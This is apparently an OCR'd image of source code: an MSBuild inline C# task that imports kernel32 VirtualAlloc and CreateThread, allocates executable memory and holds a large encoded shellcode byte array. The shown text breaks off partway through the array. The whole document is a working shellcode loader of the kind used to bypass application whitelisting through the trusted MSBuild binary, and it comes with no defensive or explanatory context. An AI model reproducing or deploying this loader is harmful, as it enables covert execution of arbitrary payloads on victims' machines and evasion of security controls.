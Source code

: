 ```
    TaskName="ClassExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
    
      <Code Type="Class" Language="cs">
      <![CDATA[
        using System;
        using System.Runtime.InteropServices;
        using Microsoft.Build.Framework;
        using Microsoft.Build.Utilities;
        public class ClassExample :  Task, ITask
        {         
          private static UInt32 MEM_COMMIT = 0x1000;          
          private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;          
          [DllImport("kernel32")]
            private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
            UInt32 size, UInt32 flAllocationType, UInt32 flProtect);          
          [DllImport("kernel32")]
            private static extern IntPtr CreateThread(            
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId           
            );
          [DllImport("kernel32")]
            private static extern UInt32 WaitForSingleObject(           
            IntPtr hHandle,
            UInt32 dwMilliseconds
            );          
          public override bool Execute()
          {
            byte[] shellcode = new byte[3189] {
0xb8,0xfe,0x59,0x88,0xe3,0xdd,0xc6,0xd9,0x74,0x24,0xf4,0x5b,0x29,0xc9,0x66,
0xb9,0x17,0x03,0x31,0x43,0x14,0x83,0xc3,0x04,0x03,0xbd,0x49,0x6a,0x16,0xfb,
0x0b,0x0e,0xdf,0x65,0x10,0x07,0x06,0xed,0x83,0x6c,0xe6,0x24,0x05,0xea,0xa0,
0x39,0x96,0x70,0x15,0x41,0xa9,0x21,0x89,0x4a,0x9e,0xde,0x4f,0xd8,0x9d,0x21,
0xc8,0xc2,0xc7,0x98,0x1a,0x36,0x5c,0xec,0xe2,0xa0,0x84,0x61,0x2a,0x53,0xe7,
0x00,0x93,0xe2,0x70,0x85,0x85,0xda,0x7c,0xc7,0xc4,0x6e,0x4c,0xba,0xc5,0x5c,
0x9f,0x56,0x88,0x1d,0x4a,0xcb,0x5a,0x6f,0x86,0x40,0x46,0x26,0x80,0xf3,0x06,
0x39,0x4e,0xc2,0x43,0x48,0x82,0x98,0x06,0xa1,0x6b,0x45,0xbb,0x79,0xeb,0x4f,
0x4f,0x57,0x2f,0x6e,0x01,0xbc,0x9f,0x7b,0x2b,0xee,0x21,0x0c,0x5e,0x01,0xcf,
0xbb,0x1e,0x12,0x2f,0xf2,0xa7,0x1f,0x9c,0xa5,0x95,0x57,0x21,0x77,0xe6,0x03,
0x16,0x5a,0x09,0x8a,0x0b,0xb6,0x9f,0x70,0x88,0x1a,0xe7,0xae,0xdb,0xd4,0xc0,
0x3f,0xcd,0x53,0x49,0x21,0x97,0x7d,0xce,0xca,0x85,0xd8,0x94,0x12,0x73,0x81,
0x13,0xda,0x63,0xcf,0xa8,0x77,0xfa,0xa4,0x96,0xc8,0x18,0x2a,0xad,0x04,0xa8,
0x56,0xfc,0x6c,0x89,0xef,0x15,0xff,0xc1,0xa5,0x4b,0xb4,0xa4,0x3c,0xbc,0xf6,
0xeb,0x10,0x99,0xaa,0x81,0x73,0x33,0x5d,0xc9,0x5c,0x71,0x8f,0x45,0x30,0x6e,
0x8b,0x3a,0xc2,0x2d,0x09,0x7e,0x0f,0x34,0xea,0xb5,0x4b,0xfd,0x39,0x97,0x8b,
0xe1,0xb8,0x31,0xaa,0xe9,0xe1,0x0c,0x0f,0xda,0x49,0x1b,0xfd,0xf4,0x82,0x3c,
0x80,0x00,0x81,0x42,0x30,0xdf,0xe4,0x9f,0x9f,0xa9,0xa7,0x6e,0x27,0xe5,0x32,
0xf6,0x4b,0x90,0x52,0xb7,0x53,0xa2,0x5a,0xc2,0x47,0xdf,0x10,0x67,0x38,0xab,
0xbe,0x8b,0x34,0xa1,0x86,0x39,0x3e,0x16,0x6c,0xbc,0xcf,0x4f,0x17,0x30,0x1d,
0xa7,0x55,0x35,0x8b,0x51,0xeb,0xdc,0x78,0xac,0xed,0x41,0x75,0xdb,0x91,0x08,
0x4b,0x0f,0x32,0xd6,0x0c,0x16,0xa5,0xca,0x80,0xd3,0xad,0x44,0x7d,0x86,0x09,
0xf1,0xcd,0x9c,0x65,0x7c,0xff,0xc7,0x2b,0x90,0xa6,0xd0,0x38,0xb1,0x57,0x7f,
0xcb,0x98,0xec,0xee,0x22,0x96,0x5f,0xcf,0xca,0x2e,0x1f,0x2e,0x6a,0x63,0x27,
0x74,0xc2,0xe1,0xed,0x8c,0x87,0x98,0x2e,0xb6,0x9f,0x28,0x64,0x07,0xa7,0xda,
0x51,0x56,0x05,0xa5,0x4e,0xcf,0xd5,0x9a,0x39,0x76,0x51,0x2c,0xd3,0x32,0xbf,
0x47,0x5d,0xee,0xa6,0xd9,0xa1,0x6c,0xd6,0x73,0x5f,0x76,0x63,0x14,0xcf,0xb2,
0x6f,0x66,0x82,0xe7,0x96,0xdf,0x25,0x21,0x24,0x12,0x71,0x68,0x42,0xf1,0xdd,
```